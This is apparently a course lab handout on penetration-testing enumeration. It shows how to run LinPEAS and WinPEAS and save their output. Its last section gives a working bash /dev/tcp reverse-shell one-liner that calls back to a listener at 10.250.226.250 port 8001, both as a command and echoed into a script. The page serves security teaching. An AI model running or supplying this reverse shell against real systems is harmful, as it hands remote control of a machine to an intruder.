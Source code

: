 

# Enumeration Scripts

Note:  Enumeration scripts for this lab are located in 
`~/cnm352-tools/scripts`

## Linux

### LinPEAS

To run the Linpeas enumeration script, first transfer the linpeas.sh file to the target and set the execute bits.

```bash
chmod +x linpeas.sh
```

Run the script one of two ways to capture output:

```bash
# Don't show output at the CLI, only capture to a file
./linpeas.sh > linpeas.txt

# Show output at CLI AND capture to file
./linpeas.sh | tee linpeas.txt
```

To view the output of the file in Kali with color coding:

```bash
less -r linpeas.txt
# Answer Y when asked if you want to continue opening
```

## Windows

### WinPEAS

Winpeas for Windows comes in multiple varieties.  The best one to use depends on the situation, but running each is straightforward:

```bash
# Batch file (for worst case scenarios)
winPEAS.bat > winpeas.txt

# 32-bit & compatible with 64-bit
winPEASx86.exe > winpeas.txt

# 64-bit only
winPEASx64.exe > winpeas.txt

# Viewing file from Windows CLI
type winpeas.txt
```

### Reverse Shell Without Netcat

You are not always guaranteed to have netcat on a target system.  You could always transfer the netcat binary.  However, it's also possible to initiate a reverse shell connection without netcat on the target.  

You will still need to start a netcat listener on Kali, but issuing this command on the target will cause the target to connect back in a reverse shell:

```bash
# Example 
# Connect to a netcat listener on 10.250.226.250 port 8001
bash &>/dev/tcp/10.250.226.250/8001 <&1
```

NOTE:  If echoing this command into a file, BE SURE to enclose it in single quotes or it will execute commands:

```bash
# Example
echo 'bash &>/dev/tcp/10.250.226.250/8001 <&1' > somefile.sh
```


